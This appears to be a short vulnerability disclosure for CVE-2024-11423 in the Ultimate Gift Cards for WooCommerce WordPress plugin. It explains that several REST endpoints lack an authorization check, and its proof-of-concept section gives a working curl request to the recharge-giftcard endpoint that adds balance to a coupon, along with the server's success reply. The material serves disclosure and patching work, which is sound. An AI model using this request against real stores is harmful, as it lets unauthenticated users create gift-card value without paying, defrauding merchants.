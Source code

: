 # CVE-2024-11423
Ultimate Gift Cards for WooCommerce <= 3.0.6 - Missing Authorization to Infinite Money Glitch

# Description

The Ultimate Gift Cards for WooCommerce – Create WooCommerce Gift Cards, Gift Vouchers, Redeem & Manage Digital Gift Coupons. Offer Gift Certificates, Schedule Gift Cards, and Use Advance Coupons With Personalized Templates plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on several REST API endpoints such as /wp-json/gifting/recharge-giftcard in all versions up to, and including, 3.0.6. This makes it possible for unauthenticated attackers to recharge a gift card balance, without making a payment along with reducing gift card balances without purchasing anything.

## Details

- **Type**: plugin
- **Slug**: woo-gift-cards-lite
- **Affected Version**: 3.0.6
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N
- **CVE**: CVE-2024-11423
- **Status**: Active

POC
---
```
curl -X POST \
  https://wp-dev.ddev.site/wp-json/gifting/recharge-giftcard \
  -H 'Content-Type: application/json' \
  -d '{"coupon_code": "CUQP4C9M", "recharge_amount": "100.00", "coupon_expiry": "2027-12-31", "usage_limit": "511"}'


{"code":"success","message":"Coupon is successfully Recharged","data":{"status":200,"remaining_amount":120,"discount_type":"fixed_cart","usage_count":0,"usage_limit":"511","description":"","coupon_expiry":"2027-12-31"}}

```
